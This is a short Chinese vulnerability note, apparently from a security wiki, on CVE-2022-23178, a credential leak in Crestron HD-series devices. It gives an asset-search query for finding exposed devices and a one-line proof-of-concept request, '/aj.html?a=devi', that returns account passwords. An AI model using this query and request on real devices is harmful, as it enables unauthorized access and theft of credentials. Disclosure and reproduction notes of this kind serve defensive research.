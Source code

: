 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>Crestron HD等系列设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Crestron-HD-RX-201-C-E"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1644758503441-dca2357a-9bc4-48fd-a5f2-b30f3db71ed3.png)

验证POC

```javascript
/aj.html?a=devi
```

![img](/assets/PeiQi-Wiki/img/1644758524287-912c0410-f3fd-4ad7-a4cf-aa47782a44ee.png)



若有收获，就点个赞吧